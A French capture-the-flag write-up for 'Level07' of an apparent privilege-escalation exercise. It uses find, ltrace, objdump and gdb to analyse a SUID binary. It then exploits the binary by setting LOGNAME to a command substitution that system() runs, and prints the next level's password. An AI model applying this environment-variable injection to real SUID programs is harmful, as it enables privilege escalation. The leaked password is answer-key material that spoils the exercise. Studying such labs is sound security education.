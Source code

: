 LEVEL 07

------------------------------------------------------------------------------------------------------------------------

    find . -user level07 2> /dev/null | grep -v proc
                 flag07
    find . -perm /u=s,g=s

    find . -type f -user flag07 -o -user level07
    find . -maxdepth 1 -name "*string*" -print


* Recherches

    Un executable SUID flag07 que l'on peut cette fois ci analyser avec gdb

    ltrace ./level07

        Intéressant : getenv("LOGNAME")                                     = "level07"
                      system("/bin/echo level07 "level07
                    
                      Si on run : export LOGNAME=flag07, l'output change bien, en flag07

    objdump -d level07 | awk -F"\n" -v RS="\n\n" '$1 ~ /<main>/'


    24 lignes de codes :

        (gdb) b 24
        Breakpoint 5 at 0x804859f: file /home/user/level07/level07.c, line 24.
        (gdb) b 25
        No line 25 in the current file.
        Make breakpoint pending on future shared library load? (y or [n])

    Ligne juste avant call asprintf : 22 donc b 22
    Ligne juste avant call system : 23 donc b 23

    Pas + de recherches, en faisant du testing à la volée c'est finalement passé ^^' plutôt gentil ce level

* Solution

    En résumé, on a un binaire SUID flag07
    ltrace ./level07
    objdump -d level07 | awk -F"\n" -v RS="\n\n" '$1 ~ /<main>/'

    En assembleur, on constate qu'il y a un call de la fameuse fonction system()
    Ce call est basé sur le retour de l'appel de asprintf
    Asprintf est un printf qui renvoie une chaine allouée de ce qui est print (+ safe ainsi), en l'occurence, est print la var d'env $LOGNAME

    Donc en tréfouillant un peu, on arrive à ceci :

    export LOGNAME='$(getflag)' ; ./level07

    su level08 fiumuikeil55xe9cu4dood66h



------------------------------------------------------------------------------------------------------------------------

int asprintf(char **strp, const char *fmt, ...);

asprintf : elle alloue une chaîne de caractères de taille suffisante pour contenir la sortie, y compris l'octet NULL terminal et renvoient un pointeur vers cette chaîne via le premier paramètre
asprintf() does this in one step for you - calculates the length of the string, allocates that amount of memory, and writes the string into it.
https://stackoverflow.com/a/12747131

ASPRINTF vs others print ? The benefit is security.
Numerous programs have allowed system exploits to occur by having programmer-supplied buffers overflowed when filled with user supplied data.
Having asprintf allocate the buffer for you guarantees that can't happen.
However you must check the return value of asprintf to ensure that the memory allocation actually succeeded.

http://manpagesfr.free.fr/man/man3/asprintf.3.html


• NASM

The call instruction is pushing the return address onto the stack
You can access your parameter by using some arithmetic and esp

push 0       ; fourth parameter
push 4       ; third parameter
push 4       ; second parameter
push [eax]   ; first parameter
call printf  ; somefunction(first,second,third,fourth);

https://www.commentcamarche.net/contents/20-les-procedures-en-assembleur
https://www.gladir.com/LEXIQUE/ASM/call.htm
